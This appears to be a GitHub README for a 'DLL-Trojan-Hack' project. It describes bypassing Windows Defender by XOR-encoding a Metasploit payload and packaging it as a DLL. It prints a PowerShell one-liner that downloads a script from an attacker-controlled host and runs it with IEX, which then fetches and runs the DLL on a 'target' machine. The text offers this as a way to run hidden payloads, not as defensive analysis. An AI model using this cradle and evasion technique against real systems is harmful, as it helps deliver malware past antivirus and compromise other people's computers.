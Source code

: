 # DLL-Trojan-Hack
An intriguing method to bypass Windows Defender's threat detection. All credit goes to <a href="https://www.purpl3f0xsecur1ty.tech/2021/03/30/av_evasion.html">Purpl3F0x Secur1ty's guide.</a>

Using an encoded payload from Metasploit, a penetration testing framework, we can further enhance the stealth of our executable through XOR encryption, then converting it into a DLL. To run this on a target Windows computer, we can use the following PowerShell command: 
```powershell 
(new-object system.net.webclient).downloadstring("<your-ip>/<your-powershell-script>") | IEX
```
This will grab and run the PowerShell script that grabs and runs the DLL file. <i>Note: you must have Apache (or something similar) installed and running on your host machine for this to work.</i>
